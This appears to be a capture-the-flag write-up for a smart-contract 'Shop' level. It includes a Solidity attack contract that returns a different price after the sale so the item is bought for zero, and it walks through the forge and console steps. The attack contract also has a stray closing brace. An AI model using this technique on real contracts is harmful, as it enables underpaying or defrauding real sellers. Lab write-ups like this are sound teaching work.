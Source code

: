 # Task

Сan you get the item from the shop for less than the price asked?

# Contract

```sol
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface Buyer {
    function price() external view returns (uint256);
}

contract Shop {
    uint256 public price = 100;
    bool public isSold;

    function buy() public {
        Buyer _buyer = Buyer(msg.sender);

        if (_buyer.price() >= price && !isSold) {
            isSold = true;
            price = _buyer.price();
        }
    }
}
```

Below is the attack contract

```sol
//SPDX-License-Identifier: MIT

pragma solidity ^0.8.17;

import "./shop.sol";

contract shopAttack is Buyer{
    Shop public buyer;

    constructor(address _targetaddr) {
        buyer = Shop(_targetaddr);
    }

    function buy() public {
        buyer.buy();
    }

    function price() public view override returns(uint) { 
        if (buyer.isSold()) {
            return 0;
        } else {
            return 100;
        }

        // the if statement can be written in a shorter form
        // return buyer.isSold() ? 0 :100;
    }
}


}
```
We can compile this using forge

![image](https://github.com/user-attachments/assets/855d39bb-f7ed-4c31-8725-27afc906aa51)

We've successfully compiled the attack contract and we got the contract address to be `0xb1b1d2b475d99c93d6D1c7AD1303B3C3a1BF134f`

Lets start out by calling the `price()` function in the attack contract

![image](https://github.com/user-attachments/assets/c9cc99f1-8ee7-4cfd-8898-3810f1d7b562)

We have the value of `100`

To pass the if conditional statement, we'll call the `buy()` function

![image](https://github.com/user-attachments/assets/059061ca-7da0-4004-9f70-565e56dcbaea)

Now, lets call the `price()` function again

![image](https://github.com/user-attachments/assets/17e15167-c75a-479b-91bf-b012223d9a4a)

Our price already reset to zero

Submitting the instance

![image](https://github.com/user-attachments/assets/9fb3c454-c19b-4662-9014-fd5990399aac)

We have successfully completed this level

-------------------------

Till Next Time :xD























